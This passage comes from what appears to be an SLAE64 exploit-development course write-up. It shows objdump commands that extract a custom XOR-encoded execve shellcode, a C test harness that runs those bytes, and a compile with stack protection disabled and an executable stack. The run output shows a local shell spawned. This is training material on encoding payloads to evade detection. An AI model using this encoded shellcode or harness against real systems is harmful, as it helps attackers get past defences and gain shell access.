 ```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ objdump -d ./xor-decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x0e\x5e\x80\x06\x01\x80\x36\xaa\x74\x0a\x48\xff\xc6\xeb\xf3\xe8\xed\xff\xff\xff\xe1\x9a\x69\xf9\xe1\x10\x84\xc7\xc2\xc3\x84\x84\xd8\xc1\xf8\xe1\x22\x4c\xf9\xe1\x22\x47\xfc\xe1\x22\x4b\xe1\x28\x69\x90\xa4\xae\xa9"
```

After that, we modify the `C` program with the shellcode from `objdump`, which was provided in the course materials and checks if a shellcode is working.

The whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\xeb\x0e\x5e\x80\x06\x01\x80\x36\xaa\x74\x0a\x48\xff\xc6\xeb\xf3\xe8\xed\xff\xff\xff\xe1\x9a\x69\xf9\xe1\x10\x84\xc7\xc2\xc3\x84\x84\xd8\xc1\xf8\xe1\x22\x4c\xf9\xe1\x22\x47\xfc\xe1\x22\x4b\xe1\x28\x69\x90\xa4\xae\xa9";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

We test it by just executing `shellcode`.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ ./shellcode 
Shellcode Length: 54
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
compile.sh    execve-stack.nasm  shellcode    xor-decoder	xor-decoder.o
execve-stack  execve-stack.o	 shellcode.c  xor-decoder.nasm	xor-sub-encoder.py
$ exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$
```
